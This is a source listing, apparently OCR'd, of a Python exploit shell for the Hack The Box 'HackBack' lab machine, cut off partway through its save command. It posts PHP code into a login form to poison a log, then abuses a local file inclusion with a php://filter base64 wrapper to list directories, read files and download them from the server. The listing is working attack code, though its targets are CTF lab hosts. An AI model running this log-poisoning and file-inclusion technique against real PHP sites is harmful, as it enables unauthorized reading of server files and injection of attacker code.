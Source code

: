 ```

  1 #!/usr/bin/env python3
  2 
  3 import hashlib
  4 import netifaces
  5 import re
  6 import requests
  7 from cmd import Cmd
  8 from base64 import b64decode, b64encode
  9 
 10 
 11 class Terminal(Cmd):
 12     prompt = "> "
 13 
 14     def __init__(self, proxy=None):
 15         super().__init__()
 16         self.my_ip = netifaces.ifaddresses('tun0')[netifaces.AF_INET][0]['addr']
 17         self.sess = hashlib.sha256(self.my_ip.encode()).hexdigest()
 18         self.webadmin_url =  f'http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/webadmin.php?'
 19         self.webadmin_url += f'action={{action}}&site=hackthebox&password=12345678&session={self.sess}&'
 20         self.webadmin_url += f'dir={{dir}}&file=php://filter/convert.base64-encode/resource={{file}}'
 21         self.post_url = 'http://www.hackthebox.htb'
 22         self.proxy = proxy or {}
 23         self.cookie = {'PHPSESSID': self.sess}
 24         self.clean_log()
 25 
 26     def clean_log(self):
 27         requests.get(self.webadmin_url.format(action='init', dir='', file=''),
 28                      cookies=self.cookie, proxies=self.proxy, allow_redirects=False)
 29         requests.post(self.post_url, cookies=self.cookie, proxies=self.proxy,
 30                      data={'username': "qqqqqq<?php echo print_r(scandir($_GET['dir'])); ?>zzzzzz",
 31                            'password': "xxxxxx<?php include($_GET['file']); ?>pppppp",
 32                            'submit': ""})
 33 
 34     def do_dir(self, args):
 35         '''Do a directory listening of the given path
 36         Spaces in file path allowed'''
 37         args = args or '.'
 38         resp = requests.get(self.webadmin_url.format(action='show', dir=args, file=''),
 39                             cookies=self.cookie, proxies=self.proxy, allow_redirects=False)
 40         print(re.search("qqqqqq(.*)zzzzzz", resp.text, re.DOTALL).group(1))
 41 
 42     def do_type(self, args):
 43         '''Print the contents of a file
 44         Spaces in file path allowed'''
 45         resp = requests.get(self.webadmin_url.format(action='show', dir='', file=args),
 46                             cookies=self.cookie, proxies=self.proxy, allow_redirects=False)
 47         print(b64decode(re.search("xxxxxx(.*)pppppp", resp.text, re.DOTALL).group(1)).decode())
 48 
 49     def do_save(self, args):
 50         '''Save the contents of a file to a file
 51         Spaces in file path allowed
 52         save [relative path on hackback] [path to save to]'''
 53         args = args.split(' ')
 54         out_file = args[-1]
 55         file_path = ' '.join(args[:-1]) or out_file
 56         resp = requests.get(self.webadmin_url.format(action='show', dir='', file=file_path),
 57                             cookies=self.cookie, proxies=self.proxy, allow_redirects=False)
 58         with open(out_file, 'wb') as f:
```